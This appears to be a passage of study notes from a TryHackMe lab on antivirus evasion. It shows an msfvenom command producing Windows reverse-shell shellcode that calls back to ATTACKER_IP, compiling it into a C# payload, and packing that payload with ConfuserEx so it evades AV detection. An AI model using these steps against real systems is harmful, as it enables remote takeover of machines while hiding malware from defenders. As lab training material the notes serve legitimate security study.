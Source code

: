 - This payload takes a shellcode generated by `msfvenom` and runs it into a separate thread.
- For this to work, you'll need to generate a new shellcode and put it into the `shellcode` variable of the code:

```shell-session
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

![](/assets/img/Pasted image 20230114215628.png)

- You can then compile the payload in the Windows machine:

```shell-session
C:\> csc UnEncStagelessPayload.cs
```

- Once you have a working executable, you can try uploading it to THM AV Check. It should get flagged by the AV:

![](/assets/img/Pasted image 20230114215907.png)

	- It found the shellcode!

- Let's see what will happen after using a packer on it:
- We will use `ConfuserEx` packer for this task, as our payloads are programmed on `.NET`.
- For your convenience, you can find a shortcut on your desktop to it.

<u>Setup for ConfuserEx</u>:

- Base Directory : must be `Desktop`.
- Drag and drop the executable you want to pack on the interface.

![](/assets/img/Pasted image 20230114220200.png)

- Go to `Settings tab` and select our payload.
- Once selected, hit the "`+`" button to add settings to your payload.
- This should create a rule named "`true`".
- Make sure to enable compression as well:

![](/assets/img/Pasted image 20230114220306.png)

- `Double-click` on the "`Rules`" element > We will now edit the "`true`" rule and set it to the `Maximum preset`:

![](/assets/img/Pasted image 20230114220509.png)

- Finally, we'll go to "`Protect!`" tab and hit "`Protect`":

![](/assets/img/Pasted image 20230114220603.png)

<u>Output</u>:

![](/assets/img/Pasted image 20230114220637.png)

**Uploading it to AV solution**:

![](/assets/img/Pasted image 20230114220726.png)
